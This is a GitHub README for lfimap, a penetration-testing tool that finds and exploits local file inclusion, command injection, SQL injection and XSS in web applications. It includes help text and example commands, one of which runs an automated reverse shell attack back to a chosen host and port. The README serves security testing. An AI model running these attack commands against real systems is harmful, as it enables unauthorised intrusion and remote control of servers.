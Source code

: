 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Generic blind and union based sql injection testing
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option for automated reverse shell attack upon code execution detection

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### -h, --help
```                  

usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] [--useragent <agent>]
                 [--referer <referer>] [--param <name>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli]
                 [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] [-wT <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]                       Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]                   Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>                    Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>                   Do HTTP POST value test. Ex: "param=PWN"
  -H <header>                    Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>                     Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>            Specify HTTP user agent
  --referer <referer>            Specify HTTP referer
  --param <name>                 Specify different test parameter value
  --no-stop                      Don't stop using same method upon findings
                                                                                                   
ATTACK TECHNIQUE:                                                                                  
  -f, --filter                   Attack using filter:// wrapper                                    
  -i, --input                    Attack using input:// wrapper                                     
  -d, --data                     Attack using data:// wrapper                                      
  -e, --expect                   Attack using expect:// wrapper                                    
  -t, --trunc                    Attack using path truncation with wordlist (default "short.txt")  
  -r, --rfi                      Attack using remote file inclusion                                
  -c, --cmd                      Attack using command injection                                    
  --file                         Attack using file:// wrapper                                      
  --xss                          Test for reflected XSS                                            
  --sqli                         Test for SQL injection                                            
  --info                         Test for basic information disclosures                            
  -a, --all                      Use all available methods to attack                               
                                                                                                   
PAYLOAD OPTIONS:                                                                                   
  -x, --exploit                  Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>                Specify local ip address for reverse connection                   
  --lport <lport>                Specify local port number for reverse connection                  

WORDLIST OPTIONS:
  -wT <path>                     Specify wordlist for truncation test
  -wC <path>                     Specify wordlist for command injection test

OTHER:
  -v, --verbose                  Print more detailed output when performing attacks
  -h, --help                     Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
